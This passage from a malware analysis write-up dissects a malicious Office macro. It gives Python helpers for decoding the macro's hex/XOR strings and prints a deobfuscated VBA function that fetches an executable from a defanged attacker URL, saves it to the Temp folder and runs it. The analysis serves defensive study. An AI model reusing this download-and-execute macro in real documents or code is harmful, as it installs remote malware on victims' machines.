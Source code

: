 **Explanation:**  
- The macro passes an attacker-controlled domain (`hxxp://gv-roth.de/js/bin.exe`) and a file location (`%USER%\AppData\Local\Temp\DYIATHUQLCW.exe`) to the `ZUWSBYDOTWV` function.
- `Environ("TEMP")` resolves to `%USER%\AppData\Local\Temp` in Windows 10.

---

#### **Decoding Strings**  
The `Hextostring` and `XORI` functions are rewritten in Python for easier decoding:

```python
def hextostring(hx: str) -> bytes:
    hex_chars = [hx[i:i+2] for i in range(0, len(hx), 2)]
    return b''.join([chr(int(hc, 16)).encode() for hc in hex_chars])

def xor(cipher: bytes, key: bytes) -> None:
    return ''.join([chr(int(b) ^ int(key[i % len(key)])) for i,b in enumerate(cipher)])

cipher = ""  # Add ciphertext
key = ""  # Add key

print(xor(hextostring(cipher), hextostring(key)))
```

Using this approach, the `ZUWSBYDOTWV` function is cleaned up further:

```vb
Function ZUWSBYDOTWV(ByVal domain As String, ByVal executableFileLocation As String) As Boolean
    Dim xmlHttpClient As Object, fileHandle As Long, responseBody() As Byte

    Set xmlHttpClient = CreateObject("MSXML2.XMLHTTP")

    xmlHttpClient.Open "GET", domain, False
    xmlHttpClient.Send "gVHBnk"

    responseBody = xmlHttpClient.responseBody

    fileHandle = FreeFile
    Open executableFileLocation For Binary As #fileHandle
    Put #fileHandle, , responseBody
    Close #fileHandle

    Set hBBkbmop6VHJL = CreateObject("Shell.Application")
    hBBkbmop6VHJL.Open Environ("TEMP") & "\DYIATHUQLCW.exe"
End Function
```

**Step-by-Step Breakdown:**  
1. **HTTP Request:**  
   The macro initializes an `XmlHttp` client to send a GET request to the attacker-controlled domain (`hxxp://gv-roth.de/js/bin.exe`).

2. **Saving the Response:**  
   The response body is written to a file at `%USER%\AppData\Local\Temp\DYIATHUQLCW.exe`.
